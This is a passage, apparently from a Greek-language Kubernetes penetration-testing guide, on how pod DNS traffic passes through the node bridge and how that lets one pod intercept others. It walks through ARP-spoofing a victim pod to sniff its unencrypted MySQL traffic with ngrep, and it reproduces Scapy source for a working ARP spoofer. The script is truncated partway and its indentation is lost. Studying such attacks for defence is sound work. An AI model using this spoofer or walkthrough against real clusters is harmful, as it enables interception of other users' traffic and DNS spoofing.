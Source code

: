 Επομένως, το pod θα στείλει τα **DNS requests στη διεύθυνση 10.96.0.10** που θα **μεταφραστεί** από το cbr0 **σε** **172.17.0.2**.

> [!WARNING]
> Αυτό σημαίνει ότι ένα **DNS request** ενός pod θα **πηγαίνει πάντα** στη **γέφυρα** για να **μεταφράσει** το **service IP σε endpoint IP**, ακόμη και αν ο DNS server είναι στο ίδιο υποδίκτυο με το pod.
>
> Γνωρίζοντας αυτό, και γνωρίζοντας ότι **ARP επιθέσεις είναι δυνατές**, ένα **pod** σε έναν κόμβο θα είναι σε θέση να **παρεμβάλλει την κίνηση** μεταξύ **κάθε pod** στο **υποδίκτυο** και τη **γέφυρα** και να **τροποποιήσει** τις **DNS απαντήσεις** από τον DNS server (**DNS Spoofing**).
>
> Επιπλέον, αν ο **DNS server** είναι στον **ίδιο κόμβο με τον επιτιθέμενο**, ο επιτιθέμενος μπορεί να **παρεμβάλλει όλα τα DNS requests** οποιουδήποτε pod στο cluster (μεταξύ του DNS server και της γέφυρας) και να τροποποιήσει τις απαντήσεις.

## ARP Spoofing σε pods στον ίδιο Κόμβο

Στόχος μας είναι να **κλέψουμε τουλάχιστον την επικοινωνία από τον ubuntu-victim προς τον mysql**.

### Scapy
```bash
python3 /tmp/arp_spoof.py
Enter Target IP:172.17.0.10 #ubuntu-victim
Enter Gateway IP:172.17.0.9 #mysql
Target MAC 02:42:ac:11:00:0a
Gateway MAC: 02:42:ac:11:00:09
Sending spoofed ARP responses

# Get another shell
kubectl exec -it ubuntu-attack -- bash
ngrep -d eth0

# Login from ubuntu-victim and mysql and check the unencrypted communication
# interacting with the mysql instance
```

```python:arp_spoof.py
#From https://gist.github.com/rbn15/bc054f9a84489dbdfc35d333e3d63c87#file-arpspoofer-py
from scapy.all import *

def getmac(targetip):
arppacket= Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst=targetip)
targetmac= srp(arppacket, timeout=2 , verbose= False)[0][0][1].hwsrc
return targetmac

def spoofarpcache(targetip, targetmac, sourceip):
spoofed= ARP(op=2 , pdst=targetip, psrc=sourceip, hwdst= targetmac)
send(spoofed, verbose= False)

def restorearp(targetip, targetmac, sourceip, sourcemac):
packet= ARP(op=2 , hwsrc=sourcemac , psrc= sourceip, hwdst= targetmac , pdst= targetip)
send(packet, verbose=False)
print("ARP Table restored to normal for", targetip)

def main():
targetip= input("Enter Target IP:")
gatewayip= input("Enter Gateway IP:")

try:
targetmac= getmac(targetip)
print("Target MAC", targetmac)
except:
print("Target machine did not respond to ARP broadcast")
quit()
```